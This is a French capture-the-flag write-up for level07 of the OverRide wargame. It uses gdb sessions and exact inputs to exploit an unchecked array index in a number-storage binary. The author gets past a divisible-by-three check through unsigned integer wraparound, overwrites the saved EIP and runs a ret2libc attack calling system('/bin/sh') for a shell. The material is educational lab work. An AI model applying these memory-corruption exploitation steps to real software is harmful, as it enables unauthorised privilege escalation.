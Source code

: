 ## Level07

On observe que le binaire nous permet de stocker un nombre a un certain index, et d'afficher le contenu du tableau pour un index donné.

Lorsque qu'on entre un index qui est divisible par 3, nous obtenons un message d'erreur:

![image](https://user-images.githubusercontent.com/29956389/95601346-9bf4b100-0a53-11eb-8b10-d557af6084f4.png)

Le binaire éfface les argument passé, ainsi que l'environement, mais nous laisse avec une stack executable.

```
while (av[i] != 0)
{
	memset(av[i], 0, strlen(av[i]));
	i++;
}
i = 0;
while (env[i] != 0)
{
	memset(env[i], 0, strlen(env[i]));
	i++;
}
```

Une fois le code désassemblé, on observe que le tableau qui stocke les nombres a 100 index: `char	database[100];`, mais aucune vérification est faite sur l'index que nous donnons, nous pouvons donc en theorie écrire ou nous voulons.

On peut donc stocker notre shellcode directement dans le tableau, et réécrire l'eip pour qu'il pointe sur notre shellcode.

Avec la structure du code, on tente donc de trouver l'eip stocké lors de l'appel a main:

```
level07@OverRide:~$ gdb -q ./level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b *main
Breakpoint 1 at 0x8048723
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048723 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd710
 Saved registers:
  eip at 0xffffd70c   <--- EIP
```

Maintenant il faut trouver l'adresse du tableau pour en dériver l'index que nous utiliserons pour réécrire l'eip:

Pour cela on peut directement afficher l'adresse `[esp+0x24]` a `main+110`, le problème est que gdb modifie les variables d'environement, ce qui entraine une variation dans les adresses de la stack. On aura donc bien du mal a trouver l'adresse lorsque nous somme pas dans GDB.

La solution ici, est d'utiliser la fonction `read_number` pour trouver la différence relative entre l'adresse effective du tableau, et l'adresse du tableau passé en argument a la fonction `read_number`: Cette différence ne changera pas lors d'ajout ou de retrait de variable d'environement.

Lors de l'appel a `read_number`, le tableau sera stocké a `ebp+0x8`: EBP est le debut de notre stackframe, `ebp+0x4` est l'eip enregistré, et `ebp+0x8` est le tableau logiquement.

```
(gdb) b *read_number+6
(gdb) r
[...]
(gdb) x $ebp+0x8
0xffffd520:     0xffffd544
```

`0xffffd520` est l'adresse pour l'argument de la fonction, et `0xffffd544` est l'adresse réélle du tableau.

```
(gdb) p 0xffffd544 - 0xffffd520
$2 = 36
(gdb) p 36 / 4  <-- 4 parce que tableau de int
$3 = 9
```

On obtiens l'index 9. `9 % 3 == 0` il faut donc contourner cette protection. Si nous prenons `-9`, on fait passer l'unsigned int a 4294956356 soit 0xFFFFD544: notre tableau.

Calculons maintenant l'offset entre le tableau et l'eip enregistré:

```
=> eip at 0xffffd70c
=> database is at 0xffffd544
[...]
(gdb) p 0xffffd70c - 0xffffd544
456
(gdb) p 456 / 4  <--- to int
114
```

L'offset est de 114, vérifions:

```
Breakpoint 1, 0x080486dd in read_number ()
(gdb) c
Continuing.
 Index: 114
 Number at data[114] is 4158936339  <-- eip ?
 Completed read command successfully
(gdb) p/x 4158936339
$10 = 0xf7e45513
(gdb) x 0xf7e45513
0xf7e45513 <__libc_start_main+243>:     0xe8240489
```

Problème: 114 est divisable par 3.

On obseve ceci a la fin de la fonction `store_number`:

```
// index = index << 2; 
// <+149>:   shl    eax,0x2
database[index << 2] = nbr;
```

Ce qui equivaut a multiplier l'index donné par 4, ceci nous permet de faire wrapper l'unsigned int et d'inserer une valeur a l'index 114:

On prend donc `(UINT_MAX / 4) + 114` soit  `4294967296 / 4 + 114` = `1,073,741,938`

Essayons:

```
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
[...]

Input command: store
 Number: 3735928559	(0xdeadbeef)
 Index: 1073741938	(0xffffd70c)
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()	<-- Nice
```

Utilisons a présent une attaque ret2libc:
  - On sait que l'eip `0xffffd70c` est stocké a l'index+114 soit `1073741938`, c'est la qu'on écrira l'adresse du syscall `system`.
  - L'index + 115 est l'adresse retour, on peut y mettre l'adresse d'exit si on souhaite quitter le programme proprement.
  - L'index + 116 doit contenir notre string `/bin/sh`
  
Localisons ces addresses:

```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system	<-- Ici
0xf7f48a50  svcerr_systemerr
(gdb) p 0xf7e6aed0
$11 = 4159090384	<-- En décimal pour le stockage

(gdb) info proc map
process 8082
Mapped address spaces:
[...]
Start Addr   End Addr       Size     Offset objfile
[...]
    0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
    0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
    0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
    0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec		<-- ici
1 pattern found.
(gdb) p 0xf7f897ec
$12 = 4160264172	<-- en décimal
```

Ce qui nous donne:

```
evel07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
[...]

Input command: store
 Number: 4159090384	<--- system()
 Index: 1073741938	<--- EIP
 Completed store command successfully
Input command: store
 Number: 4160264172	<--- "/bin/sh"
 Index: 116		<-- System(114) + ret_addr(115) + "/bin/sh"(116)
 Completed store command successfully
```

Et maintenant il ne reste plus qu'a pop l'eip enrégistré en quittant le main:

```
[...]
Input command: quit
$ whoami
level08
$ 
```




